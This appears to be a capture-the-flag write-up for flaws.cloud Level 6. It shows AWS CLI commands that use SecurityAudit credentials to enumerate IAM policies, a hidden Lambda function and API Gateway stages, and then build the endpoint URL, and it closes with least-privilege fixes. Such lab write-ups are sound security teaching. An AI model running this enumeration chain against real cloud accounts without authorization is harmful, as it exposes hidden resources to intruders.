






# flaws.cloud Level 6

**Platform:** http://flaws.cloud  
**Category:** IAM Policy Enumeration + API Gateway

## Vulnerability
A user with SecurityAudit policy was able to enumerate IAM policies
and discover a custom policy granting access to API Gateway,
which exposed a hidden Lambda function endpoint.

## Steps
1. Configured AWS CLI with provided credentials

\```bash
aws configure --profile level6
\```

2. Identified the username

\```bash
aws --profile level6 iam get-user
\```



3. Listed attached IAM policies

\```bash
aws --profile level6 iam list-attached-user-policies --user-name Level6
\```



4. Investigated the custom list_apigateways policy

\```bash
aws --profile level6 iam get-policy --policy-arn arn:aws:iam::975426262029:policy/list_apigateways
aws --profile level6 iam get-policy-version --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --version-id v4
\```



5. Found hidden Lambda function using SecurityAudit policy

\```bash
aws --profile level6 lambda list-functions --region us-west-2
\```



6. Retrieved Lambda policy to find API Gateway ID

\```bash
aws --profile level6 lambda get-policy --function-name Level6 --region us-west-2
\```



7. Found the API stage name

\```bash
aws --profile level6 apigateway get-stages --rest-api-id s33ppypa75 --region us-west-2
\```



8. Constructed the final URL using AWS API Gateway URL format

\```
AWS API Gateway URL format:
https://[API_ID].execute-api.[REGION].amazonaws.com/[STAGE]/[FUNCTION]

API_ID   → s33ppypa75   (found in lambda get-policy)
REGION   → us-west-2    (found in IAM policy)
STAGE    → Prod         (found in get-stages)
FUNCTION → level6       (found in lambda get-policy)

Result:
https://s33ppypa75.execute-api.us-west-2.amazonaws.com/Prod/level6
\```

## Key Takeaway
SecurityAudit policy grants read access to IAM configurations.
Combined with a custom policy, an attacker can enumerate resources
and discover hidden endpoints that should not be publicly accessible.

## How to Fix
- Follow least privilege principle for all IAM users and roles
- Regularly audit IAM policies for unnecessary permissions
- Never expose internal Lambda functions through public API Gateway without authentication